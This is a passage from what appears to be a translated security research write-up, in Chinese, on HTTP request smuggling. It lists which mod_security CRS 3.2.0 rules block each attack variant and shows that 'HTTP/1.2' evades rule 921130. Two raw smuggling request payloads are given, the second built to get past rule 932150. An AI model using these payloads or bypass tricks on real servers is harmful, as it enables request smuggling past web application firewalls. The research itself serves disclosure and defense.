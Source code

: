 变量3演示了如何使用`HTTP/1.2`来绕过 mod_security CRS防御。mod_security 的CRS3.2.0攻击检测规则对HTTP请求走私有一些非常基本的规则：
- 920（协议执行）：对请求行格式（920100）的基本检查。（我的攻击不基于此）
- 920（协议执行）：检查`Content-Length`值是否为所有数字（920160）。（我的攻击不基于此）
- 920（协议执行）：“不接受有GET或HEAD请求的正文”（920170）。（我的攻击不基于此）
- 920（协议攻击）：“要求在每个POST请求中提供`Content-Length`或者`Transfer-Encoding`”（920180）。（仅禁止变体2的攻击）
- 921（协议攻击）：“此规则在`Content-Length`或`Transfer-Encoding`请求头中查找逗号字符”（921100）。（我的攻击不基于此）
- 921（协议攻击）：在HTTP请求体中，CR或LF后跟HTTP动词，如GET/POST（921110）。（变体1没有这样做）
- 921（协议攻击）：在正文或cookie的任何位置，查找CR/LF后面是 `Content-Length`或 `Content-Type` `Set-Cookie` `Location`）（921120）。（我的攻击不基于此）
- 921（协议攻击）：“HTTP响应分割”——在正文或cookies的任何位置寻找非字母数字后跟着 `HTTP/0.9` `HTTP/1.9` `HTTP/1.0`或`HTTP/1.1`或`&lt;html`或`&lt;mate`（921130）。（禁止我所有的攻击）
- 921（协议攻击）：在请求头中查找CR/LF（921140）（影响变体1和2，当使用CR时）
- 921（协议攻击）：“检测参数名称中的换行符”（921150）。（禁止我所有的攻击）
通过将违规的CRs和LFs移到一个参数值而不是一个参数名，就可以很容易绕过921150。例如，在变体1中，使用了`xy=GET…`，而不是`barGET…`。

现在只剩下一个简单的规则（921130），这个规则原本是针对HTTP响应拆分请求而制定的，实际上却能阻止我所有的攻击。如果我删除这个规则，那么我就可以使用变种1(它不会被任何CRS 3.2.0规则阻止)。该规则的有效性取决于这样一个事实，即攻击者必须在请求体的某个地方放置`HTTP/1.x`。但大多数网络服务器会很把 `HTTP/1.2`请求当作 `HTTP/1.1`处理。

**IIS、Apache、nginx、node.js、Abyss**将`HTTP/1.2`视为`HTTP/1.1`。**Squid, HAProxy, Caddy 、Traefik** 将`HTTP/1.2`转化为`HTTP/1.1`。

例如，变体1包含`HTTP/1.2`的payload如下：

```
POST /hello.php HTTP/1.1
Host: foo.com
Connection: Keep-Alive
Content-Length: 36
Content-Length Kuku: 3

xy=GET /a.html HTTP/1.2
Something: GET /b.html HTTP/1.1
Host: foo.com

```

这将触发一些应用程序级别规则（“Unix direct remote command execution”——932150），但可以通过将`=`符号移动到命令后面并加上`http://foo.com`来轻松地绕过它：

```
POST /hello.php HTTP/1.1
Host: foo.com
User-Agent: foo
Accept: */*
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Content-Length Kuku: 3
barGET http://foo.com/a.html?= HTTP/1.2
Something: GET /b.html HTTP/1.1
Host: foo.com
User-Agent: foo
Accept: */*
```
